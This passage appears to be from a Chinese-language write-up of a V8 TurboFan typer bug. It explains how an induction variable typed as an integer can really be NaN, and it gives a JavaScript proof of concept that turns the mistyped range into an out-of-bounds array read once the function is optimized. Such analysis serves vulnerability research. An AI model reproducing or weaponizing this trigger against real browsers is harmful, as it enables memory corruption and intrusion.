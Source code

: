 ```
```
当`inc`变量的值最小`increment_min`小于0并且最大值 `increment_max`大于0的话，返回的是`typer_->cache_->kInteger`，也就是kInteger类型。
所以，如果想让函数最后返回的是`kInteger`的话，`inc`的符号必须同时是正的和负的。
并且在增长的最后，结果还必须为无限大。

想要做到这种效果，可以在循环的过程中修改inc的值。这样实际上循环的值为`NaN`但是返回的结果却又是`typer_->cache->kInteger`
导致编译器认为这里是一个数字。

## POC

```javascript
function foo(idx) {

    let o = [, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9];

    let x = -Infinity;
    let i = 0;
    for (; i < 1; i += x) {
      if (i == -Infinity) x = +Infinity;
    }

    let value = Math.max(i, 1);
  	// compiler: Range(1, inf)
  	// reality: NaN
    value = -value;
  	// compiler: Range(-inf, -1)
  	// reality: NaN
    value = Math.max(value, -2);
  	// compiler: Range(-2, -1)
  	// reality: NaN
    value >>= 0;
	// compiler: Range(-2, -1)
  	// reality: 0
    value += 2;
  	// compiler: Range(0, 1)
  	// reality: 2
    idx &= 0x7;
  	// compiler: Range(0, 7)
  	// reality: Range(0, 7)
    idx = idx *value;
  	// compiler: Range(0, 7)
  	// reality: Range(0, 14)
    idx<<=1;
  	// compiler: Range(0, 14)
  	// reality: Range(0, 28)
    idx>>=1;
  	// compiler: Range(0, 7)
  	// reality: Range(0, 14)
    return o[idx];

}
%PrepareFunctionForOptimization(foo);
print(foo(5));
print(foo(5));
print(foo(2));
print(foo(2));
%OptimizeFunctionOnNextCall(foo);
print(foo(5));
```
要分析这个POC，必须得用到我们的turbolizer
```
sudo apt install npm
cd tools/turbolizer
```